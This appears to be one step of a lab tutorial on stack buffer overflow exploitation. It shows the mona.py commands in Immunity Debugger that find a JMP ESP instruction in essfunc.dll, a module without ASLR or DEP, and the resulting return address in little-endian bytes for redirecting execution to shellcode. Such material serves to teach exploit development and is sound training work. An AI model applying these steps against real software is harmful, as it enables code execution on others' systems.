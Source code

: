# 6. Finding the Right Module (JMP ESP)

---

## ✅ Objective:
Find a JMP ESP instruction in a module that is:
- Not protected by ASLR/DEP
- Stable and safe to use
- Allows us to redirect execution to shellcode

---

## 🛠️ Used Tools:
- Immunity Debugger
- mona.py

---

## 📦 Steps:

1. Set mona working folder:
```bash
!mona config -set workingfolder c:\mona\%p
List modules:

bash
Copy
Edit
!mona modules
Chose module: essfunc.dll

Found JMP ESP:

bash
Copy
Edit
!mona find -s "\xff\xe4" -m essfunc.dll
Got address: 625011AF

Used in little endian format: \xAF\x11\x50\x62
